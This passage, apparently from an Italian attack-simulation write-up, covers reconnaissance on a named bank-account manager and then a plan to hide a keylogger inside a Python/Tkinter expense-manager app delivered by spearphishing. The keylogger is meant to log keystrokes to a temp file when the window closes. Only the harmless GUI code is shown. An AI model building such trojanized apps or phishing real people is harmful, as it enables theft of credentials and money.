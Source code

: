 Faccio una ricerca sui social media e scopro che Alessandro è un grande appassionato della finanza e all'interno della azienda è il responsabile della gestione dei conti bancari.

<br> 

## **Fase 2: Programmazione del keylogger, Spearphishing e Iniezione di un Keylogger**

---

### 1. Programmazione del Keylogger e dell'interfaccia grafica del gestore

Ho programmato il "Gestore di spesa" con Python e nel codice sorgente ho inserito il keylogger; la programmazione l'ho effettuata su Visual Code Studio [[8]](https://code.visualstudio.com/).
Ho utilizzato la libreria Tkinter di Python per la creazione dell'interfaccia grafica relativa allo script. Per come è strutturata l'applicazione, alla chiusura della finestra, il Keylogger si attiva, registra tutti i tasti premuti da Alessandro e li salva in un file di nome "log.txt" nella cartella "C:\Windows\Temp" da me scelta. La scelta della cartella è stata arbitraria, potevo scegliere qualsiasi altro percorso. Il codice sottostante rappresenta l'applicazione completa e funzionante del "Gestore di spesa", la parte finale del codice rappresenta solo il keylogger (preceduta da un commento per chiarezza):

```python

from datetime import datetime, date
import tkinter as tk
from tkinter import ttk
import pynput # type: ignore
from pynput.keyboard import Key, Listener # type: ignore
import os


def add_transaction():
    amount = float(entry_amount.get())
    description = entry_description.get()
    category = "Uscite" if var_category.get() == 0 else "Entrate"
    transactions.append((date.today(), amount, description, category))
    update_table()
    clear_entry()

def update_table():
    tree.delete(*tree.get_children())
    for transaction in transactions:
        tree.insert("", "end", values=transaction)

def clear_entry():
    entry_amount.delete(0, "end")
    entry_description.delete(0, "end")
    var_category.set(0)


window = tk.Tk()
window.title("Manager Spese")
window.grid_rowconfigure(0, weight=1)
window.grid_columnconfigure(0, weight=1)

# Sezione dei bottoni e degli spazi per l'inserimento dei caratteri
label_amount = tk.Label(window, text="Ammontare:")
label_amount.grid(row=0, column=0, padx=(10, 2), pady=5)
entry_amount = tk.Entry(window)
entry_amount.grid(row=0, column=1, padx=(2, 10), pady=5)

label_description = tk.Label(window, text="Descrizione:")
```